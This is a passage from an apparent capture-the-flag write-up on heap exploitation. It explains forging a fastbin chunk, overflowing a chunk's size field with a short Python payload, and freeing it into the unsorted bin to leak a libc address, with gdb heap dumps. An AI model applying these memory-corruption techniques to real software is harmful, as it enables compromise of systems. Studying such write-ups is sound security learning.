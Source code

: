 Now gdb doesnt complain that the chunk has the wrong size for the bin its in.

The next time we allocate a size of 0x19-0x28, the allocator will look in the 0x30 bin and return a pointer to the top chunk in that bin, which happends to be where the old chunk 3 was. Then the new top chunk in the 0x30 fastbin will be the chunk we forged. At next allocation of size 0x19-0x28, the heap allocator will return a pointer that corresponds with chunk 5.

The two new chunks:

3. Chunk that fills the spot of old chunk 3
2. Chunk that points to chunk 5, old chunk 2

We can use chunk 4 again with the heap overflow to set chunk 5 back to a size that would place it in the unsorted bin.

```python=
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x91)
```

Then free chunk 5 to populate the FD and BK with libc address.

The heap layout:
```
0x562911195000: 0x0000000000000000      0x0000000000000031    <--- chunk 1
0x562911195010: 0x0000000000000000      0x0000000000000000
0x562911195020: 0x0000000000000000      0x0000000000000000
0x562911195030: 0x0000000000000000      0x0000000000000031    
0x562911195040: 0x0000000000000000      0x0000000000000000
0x562911195050: 0x0000000000000000      0x0000000000000000
0x562911195060: 0x0000000000000000      0x0000000000000031    <--- chunk 3
0x562911195070: 0x0000000000000000      0x0000000000000000
0x562911195080: 0x0000000000000000      0x0000000000000000
0x562911195090: 0x0000000000000000      0x0000000000000031    <--- chunk 4
0x5629111950a0: 0x0000000000000000      0x0000000000000000
0x5629111950b0: 0x0000000000000000      0x0000000000000000
0x5629111950c0: 0x0000000000000000      0x0000000000000091    <--- chunk 5    <--- index 2 also points
0x5629111950d0: 0x00007f90259d2b78      0x00007f90259d2b78       |- FD, BK pointers
0x5629111950e0: 0x0000000000000000      0x0000000000000000
0x5629111950f0: 0x0000000000000000      0x0000000000000000
0x562911195100: 0x0000000000000000      0x0000000000000000
0x562911195110: 0x0000000000000000      0x0000000000000000
0x562911195120: 0x0000000000000000      0x0000000000000000
0x562911195130: 0x0000000000000000      0x0000000000000000
0x562911195140: 0x0000000000000000      0x0000000000000000
0x562911195150: 0x0000000000000090      0x0000000000000030    <--- chunk 6
0x562911195160: 0x0000000000000000      0x0000000000000000
0x562911195170: 0x0000000000000000      0x0000000000000000
0x562911195180: 0x0000000000000000      0x0000000000020e81    <--- top chunk/wilderness
```

The `heap bins` now looks like:
```
───────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x5629111950c0, bk=0x5629111950c0
 →   Chunk(addr=0x5629111950d0, size=0x90, flags=PREV_INUSE)
```
Because chunk 5 has already been free'd, we cant print the contents which hold the heap addresses, but the index 2 also points to the address of chunk 5 and that has not been free'd so we can print the contents of index 2 to get a leak of libc. Subrtract that number to the offset we calculated earlier and we have a leak of libc base address.
